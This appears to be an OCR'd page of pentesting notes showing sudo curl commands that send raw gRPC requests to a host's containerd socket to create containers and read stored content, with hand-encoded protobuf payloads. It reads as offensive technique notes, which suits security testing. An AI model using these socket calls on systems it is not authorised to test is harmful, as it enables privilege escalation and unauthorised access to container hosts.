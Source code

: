 We are going to base [here](https://github.com/stephenbradshaw/pentesting_stuff/blob/master/containerd/basecontainerspec.json)



sudo curl -s -v --http2-prior-knowledge --unix-socket /run/containerd/containerd.sock -X POST  -H "content-type: application/grpc"  -H "user-agent: grpc-go/1.59.0"  -H "te: trailers"  -H "containerd-namespace: k8s.io" http://localhost/containerd.services.containers.v1.Containers/Create --data-binary @createcontainer1.bin --output createcontainerresponse.bin



































echo -ne "\x00\x00\x00\x00\x4c\x0a\x47\x73\x68\x61\x32\x35\x36\x3a\x37\x30\x36\x34\x34\x36\x65\x39\x63\x36\x36\x36\x37\x63\x30\x38\x38\x30\x64\x35\x64\x61\x33\x66\x33\x39\x63\x30\x39\x61\x36\x63\x37\x64\x32\x31\x31\x34\x66\x35\x61\x35\x64\x36\x62\x37\x34\x61\x32\x66\x61\x66\x64\x32\x34\x61\x65\x33\x30\x64\x32\x30\x37\x38\x18\xb4\x07" | curl -s -v --http2-prior-knowledge --unix-socket /tmp/http2 -X POST  -H "content-type: application/grpc"  -H "user-agent: grpc-go/1.59.0"  -H "te: trailers"  -H "containerd-lease: 21254611-xKxz"  -H "containerd-namespace: k8s.io" http://localhost/containerd.services.content.v1.Content/Read --data-binary @- --output FILENAME




https://github.com/containerd/containerd/blob/2ac2b9c909fb64f4d06958a0ca2f556bec348d05/api/services/content/v1/content.proto


Content/Read to get specific details about the container setup

Use the id from previous 


b'\x00\x00\x00\x00I\nGsha256:f7988fb6c02e0ce69257d9bd9cf37ae20a60f1df7563c3a2a6abe24160306b8d'

$ echo -ne "\x00\x00\x00\x00\x49\x0a\x47\x73\x68\x61\x32\x35\x36\x3a\x66\x37\x39\x38\x38\x66\x62\x36\x63\x30\x32\x65\x30\x63\x65\x36\x39\x32\x35\x37\x64\x39\x62\x64\x39\x63\x66\x33\x37\x61\x65\x32\x30\x61\x36\x30\x66\x31\x64\x66\x37\x35\x36\x33\x63\x33\x61\x32\x61\x36\x61\x62\x65\x32\x34\x31\x36\x30\x33\x30\x36\x62\x38\x64" | sudo curl -s -v --http2-prior-knowledge --unix-socket /run/containerd/containerd.sock -X POST  -H "content-type: application/grpc"  -H "user-agent: grpc-go/1.59.0"  -H "te: trailers"  -H "containerd-namespace: k8s.io" http://localhost/containerd.services.content.v1.Content/Info --data-binary @- --output /tmp/contentinfo.bin
